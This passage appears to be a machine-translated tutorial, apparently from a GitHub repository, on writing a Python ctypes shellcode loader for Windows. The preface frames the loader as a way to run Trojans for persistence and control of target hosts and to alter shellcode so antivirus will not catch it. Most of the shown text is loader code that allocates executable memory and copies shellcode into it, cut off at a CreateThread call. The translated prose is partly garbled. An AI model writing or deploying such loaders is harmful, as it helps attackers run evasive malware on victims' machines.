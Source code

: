 # Penetration Test & ShellCode Loader

## Preface

​ During the penetration testing process, it is often necessary to use Trojans to launch the target host to achieve the purpose of persisting and conveniently controlling the target host. Because of its high plasticity and high difficulty in killing, the Trojan horse `shellcode` is usually changed and then it is not allowed to kill.

## ShellCode

​ `shellcode` is a hexadecimal machine code, which is an address-independent code. After the temporary storage EIP overflows, a piece of malicious code that can be executed by the CPU, thereby executing any instructions from the attacker. This is because when `shellcode` is written to memory, it will be translated into `CPU` instructions. `CPU` executes these instructions from top to bottom, and there is a special register, the `EIP` register. The value stored in it is the instruction address to the next execution of the `CPU` command. Therefore, you can execute `shellcode` by modifying the value of the `EIP` register.

## Preliminary exploration of ShellCode loader

Since `shellcode` is a string of executable binary code, it needs to be exploited by opening up a readable, writeable and executable area. This process is implemented using the `ctypes` library in the `python` language.

```python
# -*-coding:utf-8 -*-
"""
The ctypes library is a module in Python that calls the system dynamic link library functions. The ctypes library can use the C language dynamic link library and pass functions to it.
"""
import ctypes

shellcode = bytearray(b'')

# Use the resttype function to set the VirtualAlloc return type to ctypes.c_unit64, otherwise the default is 32-bit
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64

# Apply for memory, call the VirtualAlloc function in the kernel32.dll dynamic link library to apply for memory
ptr = ctypes.windll.kernel32.VirtualAlloc(
    ctypes.c_int(0), # Pointer to the starting address of the area to be allocated. When the value is null, point to the system retains the area it considers suitable.
    ctypes.c_int(len(shellcode)), # The size of the allocated area
    ctypes.c_int(0x3000), # Type of memory allocation
    ctypes.c_int(0x40), # Memory protection of the page area to be allocated, readable, writeable, executable
)

# Call the RtlMoveMemory function in kernel32.dll dynamic link library to move the shellcode to the requested memory
buffer = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
    ctypes.c_uint64(ptr), # Pointer to the target memory block to which the bytes are to be copied
    buffer, # Pointer to the source memory block from which to copy bytes
    ctypes.c_int(len(shellcode)) # Number of bytes copied from source to destination
)

# Create a thread to execute from the first address of the shellcode placement location
handle = ctypes.windll.kernel32.CreateThread(
```